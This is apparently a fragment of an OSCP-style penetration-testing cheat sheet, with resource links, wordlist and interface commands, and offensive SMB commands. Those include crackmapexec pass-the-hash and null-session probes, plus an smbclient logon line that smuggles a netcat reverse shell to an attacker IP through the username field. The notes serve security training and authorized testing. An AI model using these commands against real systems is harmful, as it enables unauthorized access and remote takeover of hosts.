 ----------------------------------------------------------------------------------------------------------------------
More useful info
----------------------------------------------------------------------------------------------------------------------
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://github.com/chouaibhm/OSCP-Survival-Guide-1/blob/master/OSCP_Helpful_Links.md


----------------------------------------------------------------------------------------------------------------------
**More**
----------------------------------------------------------------------------------------------------------------------
* sort <WORDLIST_PATH> | uniq          (Outputs unique words in a wordlist that is found)
* sort <WORDLIST_PATH> | uniq | wc -l  (sorts number of unique words in a wordlist that is found)

* ip -4 addr show scope global    /*Determine interfaces ip address + prefix*/
* ip route show | grep default    /*Determine which interface is public*/

**CME**
* crackmapexec smb <TARGET/S> -u <LOCAL_USER_NAME> -H <XXX_LMHASH_XX>:<XXX_NTHASH_000> --local (PTH local creds) 
* crackmapexec smb <TARGET/S> -u '' -p '' (NULL Sessions)
* cmedb - creds/hosts (show results)

**SMBclient**
* smbclient '\\<TARGET_IP>\<Share>'
* smb: \> logon "/='nc <ATTACKERS_IP> <ATTACKERS_PORT> -e /bin/bash'"


-----------------------------------------------------------------------------------------------------

